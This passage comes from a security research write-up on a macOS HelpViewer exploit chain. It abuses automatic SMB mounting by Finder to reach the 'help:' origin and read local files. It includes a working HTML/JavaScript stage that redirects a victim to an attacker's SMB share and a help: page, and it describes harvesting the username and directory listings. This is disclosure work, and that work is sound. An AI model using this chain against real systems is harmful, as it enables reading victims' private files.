 But due to same origin policy (again!), an `http:` page can not fetch url from `help:`. To bypass this, I came across an idea to abuse remote disk mounting to construct a new XSS to the `help:` domain.

Before macOS Catalina, accessing `/net/8.8.8.8/path` results in automatic mounting NFS volume from host `8.8.8.8` . This trick has been abused by various exploits and red teaming for years. Since 10.15, the `/net` entry of `/etc/auto_master` is commented out. It's now disabled.

My idea was to use a `smb://user:passwd@host/path` url to open Finder, then this location will be mounted on `/Volumes/path`. Samba is just one of the supported protocols, others like `afp://` and `cifs://` should be working as well.

During my test, if explicitly given username and password, Finder doesn't ask for confirmation at all. But I seemed to be fooled by my test environment. It actually asks. This resulted in first two failed attempts during my demostration, until I removed this part from my exploit.

If worked, my exploit would redirect to `help:/Volumes/Label/stage3` which is able to read files from arbitrary path:

```html
<link rel="stylesheet" type="text/css" href="/static/style.css">  
<p>Loading...</p>  
<script type="text/javascript">  
setInterval(() => {location = 'help:/Volumes/FileStage/reader.html'}, 2000)  
location = 'smb://bob:bob@{{ ip }}/FileStage'  
</script>
```

Furthermore, to get the active user name, I read the file `/Library/Preferences/com.apple.loginwindow.plist` and parse its `lastUserName` key. To (partially) list a directory (e.g. `~/Documents`), I can parse `.DS_Store` to get some of the filenames.

### References

1. <https://bugs.chromium.org/p/project-zero/issues/detail?id=1040> Issue 1040: macOS: HelpViewer XSS leads to arbitrary file execution and arbitrary file read
2. <https://twitter.com/vangelis_at_poc/status/852763661168857088> A medley of modern web browser exploits
3. <https://developer.apple.com/library/archive/documentation/Carbon/Conceptual/ProvidingUserAssitAppleHelp/registering_help/registering_help.html#//apple_ref/doc/uid/TP30000903-CH207-BHAHHAAE> How to Register Your Help Book
4. <https://support.apple.com/en-is/HT201536> Apple web server notifications
5. <https://github.com/Metnew/abusing-helpviewer-parallels-for-mac> Parallels for Mac: `system_profiler` output leak and launching of arbitrary apps from the web
  